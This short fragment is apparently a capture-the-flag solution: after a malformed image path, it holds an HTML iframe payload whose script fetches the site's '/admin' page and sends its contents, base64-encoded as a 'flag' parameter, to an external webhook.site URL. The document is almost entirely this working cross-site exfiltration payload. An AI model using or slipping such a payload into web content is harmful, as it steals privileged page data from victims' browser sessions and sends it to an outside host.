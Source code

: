 <iframe srcdoc="
<script>
fetch('/admin')
  .then(r => r.text())
  .then(f => fetch('https://webhook.site/a2f145b5-2e6c-4189-8f48-6d1e29488c62?flag=' + btoa(f)))
</script>
"></iframe>
